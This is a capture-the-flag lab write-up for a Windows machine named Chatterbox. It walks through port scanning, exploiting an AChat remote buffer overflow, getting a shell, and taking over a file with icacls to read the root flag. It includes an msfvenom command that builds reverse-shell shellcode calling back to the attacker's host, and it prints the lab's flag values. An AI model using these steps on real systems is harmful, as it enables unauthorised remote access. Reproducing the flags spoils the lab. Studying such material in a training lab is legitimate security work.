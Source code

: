 # Chatterbox
>Author : Xyan1d3
>Date : 11th July 2021
>IP : 10.10.10.74
>OS : Windows
>Difficulty : Medium
# Initial Enumeration
## Nmap basic top 1000 with scripts
**This scan shows not ports open.**
## Rustscan with nmap scripts
```sql
# Nmap 7.91 scan initiated Sun Jul 11 18:31:56 2021 as: nmap -vvv -p 9255,9256 -A -oN nmap/rustscan 10.10.10.74
Nmap scan report for 10.10.10.74
Host is up, received echo-reply ttl 127 (0.069s latency).
Scanned at 2021-07-11 18:31:56 IST for 22s

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   AChat chat system

Uptime guess: 0.033 days (since Sun Jul 11 17:44:12 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental

TRACEROUTE (using port 9255/tcp)
HOP RTT      ADDRESS
1   69.39 ms 10.10.14.1
2   69.91 ms 10.10.10.74
```

We see that the port `9255/tcp` is running `AChat chat system`.
![[Pasted image 20210711184004.png]]

We have a `Remote Buffer Overflow` vulnerability which we could try to exploit this box.

We have to change the shellcode of the bufferoverflow to get a reverse shell on the box.
```python
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=9001 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

We replace the shellcode and run the exploit while listening on the port to get a shell on the box.
![[Pasted image 20210711214550.png]]

## Getting the user Flag
```python
C:\Users\Alfred\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of C:\Users\Alfred\Desktop

12/10/2017  07:50 PM    <DIR>          .
12/10/2017  07:50 PM    <DIR>          ..
07/11/2021  12:04 PM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)  19,618,828,288 bytes free

C:\Users\Alfred\Desktop>type user.txt
type user.txt
d734b1393ee1d64404c508ce1b9b102a
```

# Getting the root Flag
We see that we can get inside the `Administrator` home directory.
But, Get an `Access Denied` while reading `root.txt`.
```python
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of C:\Users\Administrator\Desktop

12/10/2017  07:50 PM    <DIR>          .
12/10/2017  07:50 PM    <DIR>          ..
07/11/2021  12:04 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)  19,618,828,288 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
Access is denied.
```

We could list the permissions and ownerships of the `Desktop` directory and `root.txt`.

```python
C:\Users\Administrator>icacls Desktop
icacls Desktop
Desktop NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
        CHATTERBOX\Administrator:(I)(OI)(CI)(F)
        BUILTIN\Administrators:(I)(OI)(CI)(F)
        CHATTERBOX\Alfred:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```
We see that we have `Alfred` having `Full Access` on the Desktop directory.

Now, We need to take the ownership of the file.
```python
C:\Users\Administrator\Desktop>icacls root.txt /GRANT Alfred:F
icacls root.txt /GRANT Alfred:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop>type root.txt
type root.txt
734bd068e778e56a47048485ee16d0c9
```